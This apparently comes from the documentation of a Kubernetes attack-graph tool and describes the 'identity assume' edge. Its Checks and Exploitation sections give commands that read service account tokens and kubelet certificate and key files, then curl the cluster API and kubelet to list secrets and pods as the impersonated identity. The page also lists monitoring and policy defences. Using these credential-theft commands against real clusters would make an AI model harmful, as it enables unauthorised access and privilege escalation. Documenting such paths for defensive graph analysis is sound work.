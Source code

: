# IDENTITY_ASSUME

Represents the capacity to act as an [Identity](../vertices/IDENTITY.md) via ownership of a service account token, user PKI certificate, etc.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md), [Node](../vertices/NODE.md) | [Identity](../vertices/IDENTITY.md)  | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

## Details

Authentication to the K8s API is performed via passing certificates, static tokens or OIDC tokens in the API request. This edge represents the ability to assume an identity using either acquired credentials (such as a service account token) or the intrinsic identity of a resource in K8s such as executing commands from inside a pod with a bound serviceaccount.

## Prerequisites

Control of execution within a container with a bound serviceaccount or access to a node file system.

## Checks

### Container 

Check for a mounted service account tokens or secrets:

```bash
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
```

### Node 

Check the kubelet configuration:

```bash
cat {$NODE_ROOT}/etc/kubernetes/kubelet.conf 
```

This should contain the paths of the kubelet user certificates that we can steal to impersonate the node user:

```yaml
users:
- name: default-auth
  user:
    client-certificate: /var/lib/kubelet/pki/kubelet-client-current.pem
    client-key: /var/lib/kubelet/pki/kubelet-client-current.pem
```

Check the file(s) are accessible:

```bash
ls -la {$NODE_ROOT}/var/lib/kubelet/pki/kubelet-client-current.pem
```

## Exploitation

### Container 

Assuming a valid token is recovered from e.g a mounted service account a token is found it can be used to interact with the K8s API, to potentially access new resources:

```bash
KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
      https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/kube-system/secrets
```

### Node

The kubelet PKI certificates can be used to authenticate to either the kubelet or the K8s API:

```bash
 curl -k --cacert {$NODE_ROOT}/etc/kubernetes/pki/ca.crt --key {$NODE_ROOT}/var/lib/kubelet/pki/kubelet-client-current.pem --cert {$NODE_ROOT}/var/lib/kubelet/pki/kubelet-client-current.pem https://${NODE_IP}:10250/pods/ 
```

## Defences

### Monitoring

+ Monitor for installation and/or execution of kubectl within pods. This is anomalous activity but may be triggered by legitimate SRE or developer activities.
+ Interacting directly with the K8s API via non-standard tools e.g curl could be observed via the User-Agent field in audit logs. However, this is attacker controlled so should not be relied on.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the identities under which new pods can run.

## Calculation

+ [IdentityAssumeContainer](../../pkg/kubehound/graph/edge/identity_assume_container.go)
+ [IdentityAssumeNode](../../pkg/kubehound/graph/edge/identity_assume_node.go)

## References:  

+ [Official Kubernetes Documentation](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#authentication-strategies)
+ [CURLing the Kubernetes API](https://nieldw.medium.com/curling-the-kubernetes-api-server-d7675cfc398c)
+ [Kubelet API Overview](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html)
+ [Node AuthN/AuthZ](https://kubernetes.io/docs/reference/access-authn-authz/node/)